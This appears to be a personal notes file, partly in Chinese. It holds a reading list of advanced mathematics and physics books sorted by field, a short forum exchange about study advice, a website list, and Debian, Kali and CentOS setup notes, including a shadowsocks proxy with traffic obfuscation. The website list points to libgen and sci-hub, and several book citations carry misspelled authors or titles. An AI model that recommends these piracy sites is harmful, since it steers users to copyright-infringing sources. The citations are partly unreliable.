D.Joyce，Compact Manifolds with Special Holonomy，Oxford University Press。

R.K.Lazarsfeld，Positivity in Algebraic Geometry，Springer。

J-M.Hwang，Geometry of Minimial Rational Curves on Fano Manifolds（http://us
ers.ictp.it/%7Epub_off/lectures/lns006/Hwang/Hwang.pdf）。

J-M.Hwang，Base Manifolds for Fibrations of Projective Irreducible Symplecti
c Manifolds（http://arxiv.org/abs/0711.3224）。

抽象调和分析方向：

Y.Katznelson，An introduction to harmonic analysis，Cambridge University Pre
ss。

E.M.Stein，Analytic Continuation of Group Representations，Princeton Univers
ity Press。

W.Rudin，Fourier Analysis on Groups，Wiley。

G.Warner，Harmonic Analysis on Semi-Simple Lie Groups，Springer。

W.Rudin，Function Theory in the Unit Ball of Cn，Springer。

S.Helgason，Differential Geometry, Lie Groups, and Symmetric Spaces，AMS。

S.Helgason，Geometric Analysis on Symmetric Spaces，AMS。

G.Warner，Harmonic Analysis on Semi-Simple Lie Groups，Springer。

经典调和分析与逼近论方向：

E.M.Stein、G.Weiss，Introduction to Fourier Analysis on Euclidean Spaces，Pr
inceton University Press。

E.M.Stein，Singular Integrals and Differentiability Properties of Functions，
Princeton University Press。

E.M.Stein，Harmonic Analysis: Real-Variable Methods, Orthogonality and Oscil
latory Integrals，Princeton University Press。

I.Daubechies，Ten Lectures on Wavelets，SIAM。

E.W.Cheney、W.A.Light，A Course in Approximation Theory，Brooks Cole。

B.Sendov，Hausdorff Approximations，Sofia。

L.L.Schumaker，Spline Functions，Wilty。

G.Szego，Orthogonal Polynomials，AMS。

V.I.Smirnov、N.A.Lebedev，Functions of Complex Variable：Constructive Theory
，MIT。

T.W.Gamelin，Uniform Algebras，Prentice-Hall。

A.F.Nikiforov、V.B.Uvarov，Special Functions of Mathematical Physics，Birkha
user。

A.M.Olevsky，Fourier Series with Respect to General Orthogonal Systems，Spri
nger。

算子代数与非对易几何方向：

R.V.Kadison、J.R.Ringrose，Fundamentals of the Theory of Operator Algebras，
AMS。

N.Dunford、J.T.Schwartz，Linear Operators，John-Wiley。

M.A.Naimark，Normed Rings，Groningen。

J.Weidmann，Linear Operators in Hilbert Spaces，Springer。

Alain Connes，Noncommutative Geometry，Academic Press。

Yuri Manin，Quantum Groups and Noncommutative Geometry，CRM。

J-L.Loday，Cyclic Homology，Springer。

Yu.P.Solovyov、E.V.Troitsky，C*-Algebras and Elliptic Operators in Different
ial Topology，AMS。

T.K.Jensen，Elements of KK-theory，Birkhauser。

B.Blackadar，K-theory for Operator Algebras，Springer。

O.Bratteli、D.W.Robinson，Operator Algebras and Quantum Statistical Mechanic
s，Springer。

R.G.Douglas，C*-algebras Extensions And K-Homology，Princeton University Pre
ss。

代数分析与非线性泛函分析方向：

E.B.Davies，One-Parameter Semigroups，Academic Press。

V.S.Vladimirov，Generalized Functions in Mathematical Physics，MIR。

K.Deimling，Nonlinear Analysis，Springer。

L.L.Hormander，The Analysis of Linear Partial Differential Operators Vol 2-4
，Springer。

H.H.Schaefer，Topological Vector Spaces，Springer。

G.Kato、D.C.Struppa，Fundamentals of Algebraic Microlocal Analysis，CRC。

M.Kashiwara、T.Kawai、T.Kimura，Foundation of Algebraic Analysis，Princeton
University Press。

M.A.Shubin，Pseudo-differential Operators and Spectral Ttheory，Springer。

M.Morimoto，Introduction to Sato Hyperfunctions，AMS。

黎曼几何与度量几何方向：

P.Petersen，Riemannian Geometry，Springer。

A.T.Fomenko，Plateau's Problem，Gordon & Breach。

J.Cheeger，Comparison theorems in Riemannian geometry，AMS。

W.Klingenberg，Lectures on Closed Geodesics，Springer。

M.Gromov，Metric structures for Riemannian and non-Riemannian spaces，Birkha
user。

D.Burago、Yu.Burago、S.Ivanov、I.Burago，A Course in Metric Geometry，Birkha
user。

J.K.Beem、P.E.Ehrlich、K.L.Easley，Global Lorentzian geometry，Marcel Dekker
。

W.Ballmann， Geometric Structures（http://www.math.uni-bonn.de/people/hwbllm
nn/archiv/geostr00.ps）。

A.T.Fomenko、A.A.Tuzhilin，Geometry of Minimal Surfaces in Three-Dimensional
 Space，AMS。

U.Hamenstadt，Applications of Teichmueller Theory to Hyperbolic 3-Manifolds，
Birkhauser。

S.Markvorsen，Global Riemannian Geometry：Curvature and Topology，Birkhauser
。

M.R.Bridson，Metric Spaces of Non-Positive Curvature，Springer。

A.L.Besse，Einstein Manifolds, Classics in Mathematics，Springer。

D.V.Anosov，Geodesic Flows on Closed Riemann Manifolds with Negative Curvatu
re，Proceedings of the Steklov Institute of Mathematics，90(1969)。

辛几何与辛拓扑方向：

A.T.Fomenko，Symplectic Geometry，Gordon & Breach Publishers。

D.McDuff、D.Salamon，Introduction to Symplectic Topology，Oxford University
Press。

D.McDuff、D.Salamon，J-Holomorphic Curves and Quantum Cohomology，AMS。

Maurice de Gosson，Symplectic Geometry and Quantum Mechanics，Birkhauser。

J.B.Etnyre，Introductory Lectures on Contact Geometry，（http://arxiv.org/ab
s/math.SG/0111118）。

D.A.Cox、S.Katz，Mirror Symmetry and Algebraic Geometry，AMS。

M.Audin，Symplectic Geometry of Integrable Hamiltonian Systems，Birkhauser。


H.Lawson、M-L.Michelsohn，Spin Geometry，Princeton University Press。

V.Guillemin、S.Sternberg，Symplectic Techniques in Physics，Cambridge Univer
sity Press。

N.Hurt，Geometric Quantization in Action，Riedel。

N.M.J.Woodhouse，Integrability，Self Duality，and Twistor Theory，Oxford Uni
versity Press。

代数拓扑学方向：

S.I.Gelfand、Yuri Manin，Methods of Homological Algebra，Springer。

R.M.Switzer，Algebraic topology-homotopy and homology，Springer。

M.F.Atiyah，K-Theory，Benjamin。

G.Whitehead，Elements of Homotopy Theory，Springer。

M.Aubry，Homotopy Theory and Models，Birkhauser。

Y.Felix、S.Halperin、J-C.Thomas，Rational Homotopy Theory，Springer。

D.Husemoller，Fibre Bundles，Springer。

D.Quillen，Homotopical algebra，Springer。

A.Hatcher，Vector Bundles and K-theory，Cambridge University Press。

F.Hizeburch，Topological Methods in Algebraic Geometry，Springer。

D.C.Ravenal，Complex Cobordism and Stale Homotopy Groups of Spheres，Academi
c Press。

R.E.Stong，Notes on Cobordism Theory，Princeton University Press。

J.Milnor，Lectures on the h-cobordism Theorem，Princeton University Press。

J.Milnor，Characteristic Classes，Princeton University Press。


几何拓扑学方向：

J.Milnor，Singular Points of Hypersurface，Princeton University Press。

S.K.Donaldson、P.B.Kronheimer，The Geometry of Four-Manifolds，Oxford Univer
sity Press。

W.P.Thurston，Three-Dimensional Geometry and Topology，Princeton University
Press。

J.D.Moore，Lectures on Seiberg-Witten Invariants，Springer。

J.Morgan，Gauge Theory and the Topology of Four-Manifolds，AMS。

L.H.Kauffman，Knots and Physics，World Scientific。

T.Ohtsuki，Quantum Invariants，World Scientific。

K.Mahdavi，Current Developments in Mathematical Biology，World Scientific。

D.Ruberman、N.Saveliev，Rohlin's Invariant and Gauge Theory I（http://arxiv.
org/abs/math/0302131）。

D.Ruberman、N.Saveliev，Rohlin's Invariant and Gauge Theory II（http://arxiv
.org/abs/math/0306188）。

D.Ruberman、N.Saveliev，Rohlin's Invariant and Gauge Theory III（http://arxi
v.org/abs/math/0404162）。

Y.M.Eliashberg、W.P.Thurston，Confolations，AMS。

A.Candel、L.Conlon，Foliations，AMS。

I.A.Dynnikov，The Alexander Polynomial in Several Variables Can be Expressed
 in Terms of the Vassiliev Invariants，Russian Mathematical Surveys(1997)52。


I.A.Dynnikov，On a Yang-Baxter Map and the Dehornoy Ordering，Russian Mathem
atical Surveys(2002)57。

R.Rajaraman，Solitons and Instantons，North-Holland。

D.Freed、K.Uhlenbeck，Instantons and Four-Manifolds，Springer,。

V.G.Turaev，Reidemeister Torsion in Knot Theory，Russian Mathematical Survey
s (1986) 41 No 1。

V.G.Turaev， The Yang-Baxter Equation and Invariants of Links，Inventiones M
athematicae (1988) 92, No 3。

E.Artin，Theory of braids，Annals of Mathematics (1947) (2) 48。

D.Bar-Natan，On the Vassiliev Knot Invariant，Topology, 34 (1995)。

F.A.Garside，The Braid Group and Other Groups，The Quarterly Journal of Math
ematics (2) 20 (1969)。

I.A.Dynnikov，Arc-presentations of Links，Monotonic Simplification（http://a
rxiv.org/abs/math.GT/0208153）。

V.F.R.Jones，A Polynomial Invariant for Links via von Neumann Algebras，Bull
etin of the American Mathematical Society 12 (1985)。

离散与组合几何方向：

R.Schneider，Convex Bodies–the Brunn-Minkowski theory，Cambridge University
 Press。

P.M.Gruber，Convex and Discrete Geometry，Springer。

J.W.P.Hirschfeld，Projective Geometries over Finite Fields，Clarendon Press。


B.Grunbaum，Convex Polytopes，Springer。

H.Hadwiger、H.Debrunner，Combinatorial Geometry. Holt。

J.Matousek，Lectures on Discrete Geometry, Springer。

L.Fejes-Toth，Regular Figures，Pergamon。

J.H.Conway、N.J.A.Sloane，Sphere Packings，Lattices and Groups，Springer。

P.M.Gruber、C.G.Lekkerkerker，Geometry of Numbers，North-Holland。

动力系统方向：

V.I.Arnold，Geometrical Methods in the Theory of Ordinary Differential Equat
ions，Springer。

J.Guckenheimer、P.Holmes，Nonlinear Oscillations, Dynamical Systems and Bifu
rcations of Vector Fields，Springer。

K.Falconer，Fractal Geometry-Mathematical and Applications，John Wiley & Son
s。

R.Engelking，General Topology，PWN。

V.I.Arnold，Mathematical Aspects of Classical and Celestial Mechanics，Sprin
ger。

S.Chow、J.K.Hale，Methods of Bifurcation Theory，Springer。

J.Milnor，Dynamics in One Complex Variable，Vieweg。

I.P.Comfeld、S.V.Fomin、Yakov Sinai，Ergodic Theory，Springer。

Yakov Sinai，Topics in Ergodic Theory，Princeton University Press。

K.S.Sibirsky，Introduction to Topological Dynamtics，Benjamin。

V.I.Arnold，Ergodic Problems in Mathematical Physics，Benjamin。

Z.Nitecki，Differentail Dynamical，MIT。

偏微分方程方向：

L.C.Evens，Partial Differential Equation，AMS。

E.M.Landis，Second Order Equations of Elliptic and Parabolic Type，AMS。

N.V.Krylov，Nonlinear Elliptic and Parabolic Equations of the Second Order，
Reidel。

李大潜，物理学与偏微分方程，高等教育出版社。

G.Evans、J.Blackledge、P.Yardley，Analytic Methods for Partial Differential
Equations，Springer。

K.J.Engel、R.Nagel，One-Parameter Semigroups for Linear Evolution Equations，
Springer。

J.C.Robinson, Infinite-dimensional Dynamical Systems, Cambridge University P
ress。

Peter Lax、P.Phillips，Scattering  Theory，Academic Press。

H.Tanabe，Equations of Evolution，Pitman。

J.Smoller，Shock Waves and Reaction-Diffusion Equations，Springer。

P.Constantin、C.Foias，Navier-Stokes equations，Chicago University Press。

L.V.Ovisannikov，Group Analysis of Differentail Equations，Academic Press。

V.I.Arnold，Topological Methods in Hydrodynamics，Springer。

A.V.Bitsadze，Equations of Mixed Type，Pergamon。

G.Whitham，Linear and Nonlinear Waves，John-Wiley。

E.J.Hinch，Perturbation Methods，Cambridge University Press。

O.A.Ladyzhenskaya，Mathematical Theory of Viscous Incompressible Flow，Gordo
n & Breach。

O.A.Ladyzhenskaya，The Boundary Value Problems of Mathematical Physics，Spri
nger。

A.Bensoussan、J-T.Lions、G.Papanicolaou，Asymptotic Analysis for Periodic St
ructures，North Holland。

W.Eckhaus，Asymptotic Analysis of Singular Perturbations，North-Holland。

R.Glassey，The Cauchy problem in Kinetic Theory，SIAM。

J-L.Lions、E.Magenes，Non-Homogeneous Boundary Value Problems and Applicatio
ns，Springer。

Qing Han，Fanghua Lin，Elliptic Partial Differential Equations，NYU。

T.Aubin，Nonlinear Analysis on Manifolds，Monge-Ampere Equations，Springer。


M.Struwe，Variational methods，Springer。

量子场论与弦论方向：

D.H.Perkins，Introduction to High Energy Physics，Addison-Wesley。

A.M.Polyakov，Gauge Fields and Strings，CRC。

B.Zwiebach，A First Course in String Theory，Cambridge University Press。

J.Polchinski，String Theory，Cambridge University Press。

侯伯元、侯伯宇，物理学家用微分几何，科学出版社。

P.J.E.Peebles，Principles of physical cosmology，Princeton University Press。


C.Johnson，D-branes，Cambridge University Pres。

J.Wess、J.Bagger，Supersymmetry and Supergravity，Princeton University Press
。

S.W. Hawking，The Large Scale Structure of Space-Time，Cambridge University
Press。

S.Chandrasekhar，The Mathematical Theory of Black Holes，Clarendon Press。

Yakov Zeldovich、I.D.Novikov，Relativistic Astrophysics，University of Chica
go Press。

Yuri Manin，Gauge Field Theory and Complex Geometry，Springer。

Marcos Marino，Chern-Simons Theory，Matrix Models and Topological Strings，O
xford University Press。

E.Frenkel，Lectures on the Langlands Program and Conformal Field Theory（htt
p://arxiv.org/abs/hep-th/0512172）。

可积系统方向

L.A.Dickey，Soliton Equation and Hamiltonian System，World Scientific。

R.Alicki、M.Fannes，Quantum Dynamical Systems，Oxford University Press。

A.R.Chowdhury、A.G.Choudhury，Quantum Integrable Systems，CRC。

L.D.Faddeev、L.A.Takhtajan，Hamiltonian Methods in the Theory of Solitons，A
ddison-Wesley。

M.A.Ablowitz、P.A.Clarkson，Solitons，Nonlinear Evolution Equations and Inve
rse Scattering，Cambridge University Press。

E.D.Belokolos、A.I.Bobenko、V.Z.Enolsky、A.R.Its、V.B.Matveev，Algebro-Gemet
ric Approach to nonlinear Integrable Equations，Springer。

V.B.Matveev、M.A.Salle，Darboux Transformations and Solitons, Springer。

V.E.Korepin、N.M.Bogoliubov、A.G.Izergin、Quantum Inverse Scattering Method
and Correlation Functions，Cambridge University Press。

P.Etingof，The Dynamical Yang-Baxter Equation，Representation Theory and Qua
ntum Integrable Systems，Oxford University Press。

L.D.Faddeev，Integrable Models in 1+1 Dimensional Quantum Field Theory，Else
vier。

A.Martin，From Quantum Cohomology to Integrable Systems，Oxford University P
ress。

B.Dubrovin，Geometry of Hamiltonian Evolutionary Systems，Bibliopolis。

概率论与随机分析方向：

I.I.Gihman、A.V.Skorokhod, Theory of Stochastic Processes，Springer。

D.Revuz、M.Yor，Continuous Martingales and Brownian Motion，Springer。

Paul Malliavin，Stochastic Analysis，Springer。

den Hollander，Large deviations，AMS。

D.Nualart，The Malliavin Calculus and Related Topics，Springer。

B.K.Oksendal，Stochastic Differential Equations，Springer。

V.I.Bogachev，Gaussian Measures，AMS。

Yuri Gliklikh，Global Analysis in Mathematical Physics，Springer。

G.Adomian，Nonlinear Stochastic Operator Equations，Academic Press。

M.L.Mehta，Random Matrices，Elsevier。

K.R.Parthasarathy，An Introduction to Quantum Stochastic Calculus，Birkhause
r。

K.B.Sinha，Quantum Stochastic Processes and Noncommutative Geometry，Cambrid
ge University Press。

G.Pisier，Factorization of Linear Operators and Geometry of Banach Spaces，A
cademic Press。

L.Gross，Hypercontractivity，Logarithmic Sobolev Inequalities and Applicatio
ns，Princeton University Press。

G.Giacomin，Random Polymer Models，World Scientific。

J-F.Le Gall，Spatial Branching Processes，Random Snakes and Partial Differen
tial Equations，Birkhauser。

I.Cuculescu、A.Oprea，Non-Commutative Probability，Kluwer。

T.Liggett，Interacting Particle Systems，Springer。

S.Asmussen、H.Hering，Branching Processes，Birkhauser。

J.L.Doob，Classical Potential Theory and Its Probabilistic Counterpart，Spri
nger。

B.Beauzam，Introduction to Banach Spaces and Their Geometry，North-Holland。


M.Henkel，Conformal Invariance and Critical Phenomena，Springer。

B.Duplantier，Conformal Random Geometry（http://arxiv.org/abs/math-ph/060805
3）。

W.Werner，Lectures on two-Dimensional Critical Percolation（http://arxiv.org
/abs/0710.08563）。



euro



我很晕

列的书太多了。不要把新生吓坏，我已被吓的半死。还是及早开始科研吧。做科研不需
要许多。学太多也要出问题。希望科大学生能把抽象代数学的深一点。还要花时间多思
考，多讨论。“EGA全部看完，那很困难，特别是这本书只有法文版，没有英文版，老实
说我也没有看完”，佩服佩服，能看看就很好。我没看过。科大有EGA，或代数几何 的
讨论班吗？


义务劳动



上面那个书单我是按研究方向列的，其实还应该再分细点，比如说代数，我主要是考虑
做代数表示论和代数群和量子群的。我想选几本和自己做的方向有关的书的相关章节看
看就好了。你说的应该及早开始科研这一点，学太多也会出问题这两点，我非常同意。


EGA以前我和朋友讨论过，觉得EGA架构太大，如果是一上手就看这个，又没有指导的话
，肯定犯糊涂，而且现在里面的专题大多有相关专著，比如说 Etale Cohomology。当然
了，我想有时间看看还是很好的。科大现在有没有代数几何的讨论班我倒还不太清楚了
，不过我想如果自己组织讨论班的话，可能组织Arakelov几何、 Langlands Programme
、非对易几何、叶状结构方面的系列讨论班更加重要吧！另外我觉得Werner和Duplanti
er的那些东西恐怕也挺重要的，或许会成为新的增长点，但是国内没人搞。
** books
** websites
http://mathoverflow.net/
https://arxiv.org/
http://www.ams.org/
https://www.mathunion.org/
http://terrytao.wordpress.com/
http://libgen.io/
https://link.springer.com/
http://math.mit.edu/academics/classes.php
https://math.stackexchange.com/
http://sci-hub.tw/
http://www.sci-hub.la/
https://www.ias.edu/
http://www.ihp.fr/
https://www.mpg.de/de
* computer
unix aix freebsd trueos linux debian centos
** Operating System
*** linux

*** installing os
**** debian
partition
/              250-350MB,include /usr 4-6GB
/boot          200MB
/usr           >500M,4-6GB,usually included on /
/usr/local     20-30GB
/tmp           2GB
/var           3GB
/swap          8GB
/home          the rest

vi /etc/sources.list

#debian stable

#USTC

deb http://mirrors.ustc.edu.cn/debian stable main contrib non-free
deb-src http://mirrors.ustc.edu.cn/debian stable main contrib non-free

deb http://mirrors.ustc.edu.cn/debian stable-updates main contrib non-free
deb-src http://mirrors.ustc.edu.cn/debian stable-updates main contrib non-free

deb http://mirrors.ustc.edu.cn/debian stable-proposed-updates main contrib non-free
deb-src http://mirrors.ustc.edu.cn/debian stable-proposed-updates main contrib non-free

deb http://mirrors.ustc.edu.cn/debian-security/ stable/updates main non-free contrib
deb-src http://mirrors.ustc.edu.cn/debian-security/ stable/updates main non-free contrib
#USA

deb http://http.us.debian.org/debian stable main contrib non-free
deb-src http://http.us.debian.org/debian stable main contrib non-free

deb http://http.us.debian.org/debian stable-updates main contrib non-free
deb-src http://http.us.debian.org/debian stable-updates main contrib non-free

deb http://http.us.debian.org/debian stable-proposed-updates main contrib non-free
deb-src http://http.us.debian.org/debian stable-proposed-updates main contrib non-free

deb http://security.debian.org/debian-security  stable/updates main contrib non-free
deb-src http://security.debian.org/debian-security  stable/updates main contrib non-free

#debian testing

#USTC

deb http://mirrors.ustc.edu.cn/debian testing main contrib non-free
deb-src http://mirrors.ustc.edu.cn/debian testing main contrib non-free

deb http://mirrors.ustc.edu.cn/debian testing-updates main contrib non-free
deb-src http://mirrors.ustc.edu.cn/debian testing-updates main contrib non-free

deb http://mirrors.ustc.edu.cn/debian testing-proposed-updates main contrib non-free
deb-src http://mirrors.ustc.edu.cn/debian testing-proposed-updates main contrib non-free

deb http://mirrors.ustc.edu.cn/debian-security/ testing/updates main non-free contrib
deb-src http://mirrors.ustc.edu.cn/debian-security/ testing/updates main non-free contrib

#USA

deb http://http.us.debian.org/debian testing main contrib non-free
deb-src http://http.us.debian.org/debian testing main contrib non-free

deb http://http.us.debian.org/debian testing-updates main contrib non-free
deb-src http://http.us.debian.org/debian testing-updates main contrib non-free

deb http://http.us.debian.org/debian testing-proposed-updates main contrib non-free
deb-src http://http.us.debian.org/debian testing-proposed-updates main contrib non-free

deb http://security.debian.org/debian-security  testing/updates main contrib non-free
deb-src http://security.debian.org/debian-security  testing/updates main contrib non-free

#kali

#USTC

deb http://mirrors.ustc.edu.cn/kali kali-rolling main contrib non-free

deb-src http://mirrors.ustc.edu.cn/kali kali-rolling main contrib non-free

#USA

deb http://http.kali.org/kali kali-rolling main non-free contrib
deb-src http://http.kali.org/kali kali-rolling main non-free contrib

apt install emacs gcc gdb make automake git fcitx chromium sougoupinyin
transmission amule clamav latex（AMS-TeX/AMS-LaTeX，TeX Live，Lyx） terminator
xterm tmux katoolin spotify-client aria2(安装使用aria2下载百度网盘内容,到火狐浏览器或谷歌浏览器插件下载库下载 Baiduexporter) uget thunderbird evolution vlc rhythmbox cmus moc
Thunderbird Evolution
标记语言转换工具：Pandoc
视频下载工具：you-get,pip3 install you-get,pip3 install --upgrade you-get
Installation:
       Put something like this in your $HOME/.bashrc or $HOME/.zshrc:

              . /path/to/z.sh
                /opt/z/z.sh

apt update
WiFi
apt-get update
apt-get install firmware-iwlwifi
modprobe -r iwlwifi;modprobe iwlwifi
屏幕截图工具，shutter,kazam;录屏工具，simplescreenrecorder,爬虫搜索，Nutch,Scrapy,
电子书calibre，chm xchm
安装搜狗输入法
虽然自带的也还行
$ echo deb http://archive.ubuntukylin.com:10006/ubuntukylin trusty main | sudo tee /etc/apt/sources.list.d/ubuntukylin.list
$ sudo apt-get update
$ sudo apt-get install sogoupinyin
注 : 如果提示没有公钥,无法验证下列数字签名 xxx
如果重启后只有搜狗输入法,则在命令行使用fcitx-configtool命令,添加系统输入法
$ sudo apt-key adv --keyserver keyserver.ubuntu.com --recv-　keys xxxx
$ sudo apt-get update

cisco,gns3
thefuck命令改正
apt install python3-dev python3-pip python3-setuptools
pip3 install thefuck
Evernote，everpad，nixnote
password generator,pwgen
sudo apt install fcitx
sudo dpkg -i 安装下载的搜狗输入法.deb
sudo apt install -f

xampp
chrome plugins,SwitchOmega
apt dist-upgrade
依赖错误, 安装相应的依赖即可. 或者自动安装缺少依赖:sudo apt install -f
install and uninstall
apt purge packagename
dpkg -i package-file-name
dpkg -l | grep 'tcl'
dpkg -P tcl8.4
设置中文环境，配置locales：#dpkg-reconfigure locales
linux下有很多工具可以制作启动盘，不过我们可以使用linux下的一条命令来完成
dmesg
cat debian-8.0.0-amd64-i386-netinst.iso >/dev/sdb;sync

dd命令
操作方法:
1 卸载你的U盘
 假设你的u盘对应的设备是sdb1(可以使用df查看或者fdisk)
 sudo umount /dev/sdb1
2 写入linux(ubuntu fedora .....)系统
sudo dd if=系统路径  of=/dev/sdb
例如 sudo dd if=./ubuntu-13.04-beta2-desktop-amd64.iso of=/dev/sdb
注意：of后面的设备一定需要注意，选错了可能会造成不可逆的损失，制作时看
清你的U盘对应的设备
Debian 9 (Stretch) 上部署 shadowsocks-libev 服务端并开启混淆
就个人看法来说，如果操作系统采用 Debian，无论是作为客户端还是服务端，使用 shadowsocks-libev 都是一种非常舒适流畅的体验。本文介绍如何在 Debian 系统中搭建 ss-libev 服务端。
注：以下的所有命令，都是针对 Debian 9 Stretch，并在 root 用户下执行的。
安装
添加 stretch-backports：
sh -c 'printf "deb http://deb.debian.org/debian stretch-backports main" > /etc/apt/sources.list.d/stretch-backports.list'
apt update
安装 shadowsocks-libev 和 simple-obfs：
apt -t stretch-backports install shadowsocks-libev simple-obfs -y
配置
编辑配置文件：
vim /etc/shadowsocks-libev/config-obfs.json
/etc/shadowsocks-libev/config-obfs.json
{
    "server":["::0","0.0.0.0"],
    "server_port":端口,
    "local_port":1080,
    "password":"密码",
    "timeout":60,
    "method":"aes-256-gcm",
    "mode":"tcp_and_udp",
    "fast_open":false,
    "plugin":"obfs-server",
    "plugin_opts":"obfs=http"
}
接下来，编辑 /etc/default/shadowsocks-libev 指定使用哪个配置文件，如下所示，更改了文件中 CONFFILE 的值（改成了 config-obfs.json ）：
vim /etc/default/shadowsocks-libev
/etc/default/shadowsocks-libev
# Defaults for shadowsocks initscript
# sourced by /etc/init.d/shadowsocks-libev
# installed at /etc/default/shadowsocks-libev by the maintainer scripts
#
# This is a POSIX shell fragment
#
# Note: `START', `GROUP' and `MAXFD' options are not recognized by systemd.
# Please change those settings in the corresponding systemd unit file.
# Enable during startup?
START=yes
# Configuration file
CONFFILE="/etc/shadowsocks-libev/config-obfs.json"
# Extra command line arguments
DAEMON_ARGS="-u"
# User and group to run the server as
USER=nobody
GROUP=nogroup
# Number of maximum file descriptors
MAXFD=32768
启动并检查
激活服务，以便开机自动启动：
systemctl enable shadowsocks-libev
启动服务：
systemctl start shadowsocks-libev
查看服务状态：
systemctl status shadowsocks-libev
至此，对服务端的部署配置愉快完成。
Debian 9 (Stretch) 上使用 shadowsocks-libev 客户端并开启混淆
本文介绍如何在 Debian 系统上使用 ss-libev 客户端。服务端部署教程见这里。
注：使用 simple-obfs 混淆时，请确认服务端同样开启了混淆功能。以下的所有命令，都是针对 Debian 9 Stretch，并在 root 用户下执行的。
安装
添加 stretch-backports：
sh -c 'printf "deb http://deb.debian.org/debian stretch-backports main" > /etc/apt/sources.list.d/stretch-backports.list'
apt update
安装 shadowsocks-libev 和 simple-obfs：
apt -t stretch-backports install shadowsocks-libev simple-obfs -y
配置
编辑配置文件：
vim /etc/shadowsocks-libev/config-obfs.json
/etc/shadowsocks-libev/config-obfs.json
{
    "server":"服务器地址",
    "server_port":端口,
    "local_port":1080,
    "password":"密码",
    "timeout":60,
    "method":"aes-256-gcm",
    "mode":"tcp_and_udp",
    "fast_open":false,
    "plugin":"obfs-local",
    "plugin_opts":"obfs=http;obfs-host=混淆用的域名"
}
启动并检查
激活服务，以便开机自动启动：
systemctl enable shadowsocks-libev-local@config-obfs
启动服务：
systemctl start shadowsocks-libev-local@config-obfs
查看服务状态：
systemctl status shadowsocks-libev-local@config-obfs
至此，对客户端的配置完成，代理服务在localhost:1080上。

运维学习需要分为四个阶段，linux初级入门-àlinux中级进阶-àlinux高级提升，和资深方向细化。
第一阶段：初级入门
初级阶段需要把linux学习路线搞清楚，任何学习都是循序渐进的，所以学linux也是需要有一定的路线。
个人建议学习的路线如下：
初级入门：
1、Linux基础知识、基本命令（起源、组成、常用命令如cp、ls、file、mkdir等常见操作命令）
2、Linux用户及权限基础
3、Linux系统进程管理进阶
4、linux高效文本、文件处理命令（vim、grep、sed、awk、find等命令）
5、SHELL脚本入门（可边练习边学习）
第二阶段:中级进阶
中级进阶需要在充分了解LINUX原理和基础知识之后，对上层的应用和服务进行深入学习，其中说到服务肯定涉及到网络的相关知识，是需要花时间学习的。
1、TCP/IP网络基础（差不多CCNA、NP的知识就够用）
2、LINUX企业常用服务（如DNS、HTTP、FTP、MAIL、NFS等）
3、LINUX企业级安全原理和防范技巧（系统性能/安全、安全威胁模型和保护方法
4、加密/解密原理及数据安全、系统服务访问控制及服务安全基础
5、IPTABLES安全策略构建
6、SHELL脚本进阶（主要是结合一些应用，写一些案例）
7、MYSQL应用原理及管理入门（能管理和搭建一个个人博客站点）
学到这里，掌握的基本技能，已经够用了，已经能做一些基础的运维工作和简单维护了。
第三阶段：高级提升
1、HTTP服务代理缓存加速（其中主要学习VARNISH、NGINX缓存系统，要对CDN的知识有所了解。）
2、企业级负载集群（其中主要学习NGINX、HAPROXY、LVS要对主要知识熟练掌握，对负载均衡算法有清晰认识，）
3、企业级高可用集群 （其中需要对KEEPALIVED，HEARTBEAT等进行深入讲解）
4、运维监控ZABBIX详解（主要是ZABBIX、CACTI、NAGIOS等监控系统，现在用的比较多的是ZABBIX）
5、运维自动化学习（需要学一些开源运维自动化工具的使用如ANSIBLE、PUPPET、COBBLER等运维自动化工具）
能掌握到这里，基本能处理搞定很多工作了，可以去面试高级运维工程师，差不多薪资能达到12-18K左右
第四阶段：资深方向进阶
1、大数据方向（需要对HADOOP、STORM等常见开源大数据系统需要深入了解）
2、云计算方向（主要是OPENSTACK这套东西，当然像一些KVM等虚拟化技术，也是需要掌握的，现在DOCKER也比较流行）
3、运维开发（主要是PYTHON运维开发）
4、自动化运维（在之前自动化基础上做深入）
5、运维架构师（主要需要广度，差不多5年左右以上经验，可以担当此职位）
另外，再推荐个不错的微信账号，经常会发一些LINUX书籍和学习视频，添加《马哥LINUX运维》可关注这个微信

**** centos
1 执行CentOS7 最小安装
安装完成后执行yum update更新系统。然后，执行

# yum install epel-release

安装额外包yum源（extra package for Enterprise Linux）。

2 安装X Window system
执行yum groupinstall "X Window system"，安装X。

安装完成后执行sudo systemctl isolate graphical.target检验安装成功。

3 安装Xfce4
执行 yum groupinstall xfce  安装Xfce桌面环境。

执行sudo systemctl isolate graphical.target,进入Xfce。

这样在重启系统后还是会默认进入黑屏文本界面

runlevel   返回当前运行级别
systemctl set-default graphical.target      设置默认启动级别为图形化界面
*** linux宕机
使用 SysRq 重启计算机的方法：
Alt + SysRq + [R-E-I-S-U-B]
——台式机键盘或者全尺寸键盘

Fn + Alt + SysRq + [R-E-I-S-U-B]
——部分笔记本键盘

解释：括号内的英文字母需要依次顺序按下，而且每次按下字母后需要间隔 5-10s 再执行下一个动作。
（如 alter +SysRq + R，间隔10s 后再按 alter+ SysRq +E，以此类推）切记不可快速按下 R-E-I-S-U-B ，否则后果和 扣电池拔电源线无异！
R-E-I-S-U-B 这个序列的推荐使用方式是：R – 1 秒 – E – 30 秒 – I – 10 秒 – S – 5 秒 – U – 5 秒 – B
字母顺序的记忆方法很简单，busy — busier — (reverse) — reisub — R-E-I-S-U-B （想来也是 linus 那斯杰作吧，lol）

*** xampp
Change the permissions to the installer
chmod 755 xampp-linux-*-installer.run
Run the installer
sudo ./xampp-linux-*-installer.run
That's all. XAMPP is now installed below the /opt/lampp directory
To start XAMPP simply call this command:
sudo /opt/lampp/lampp start
To stop XAMPP simply call this command:
sudo /opt/lampp/lampp stop
uninstall
rm -rf /opt/lampp
*** make U盘
# cp debian.iso /dev/sdX
# sync

0×1.Ubuntu使用dd命令制作U盘系统启动盘
dd命令是比较推荐的一种Linux环境中制作U盘启动盘的方式，无需安装额外的工具，基本上所有Linux发行版都集成了这个命令。
制作方法示例：
#1.查看U盘设备号，本例使用了8G的U盘，并且知道计算机安装了两块硬盘，那么U盘设备号就可以根据大小和硬盘数量很容易的分辨出来"/dev/sdc"
qing@qingsword.com:~$ sudo fdisk -l
Disk /dev/sdc: 8011 MB, 8011120640 bytes
#2.如果U盘被自动挂载，请使用U盘设备号先umount
qing@qingsword.com:~$ sudo umount /dev/sdc*
#3.准备好一个iso文件，使用dd命令将这个iso写入u盘
# if=后面跟要刻录到u盘的iso文件路径
# of=后面是u盘设备号（不需要带分区号）
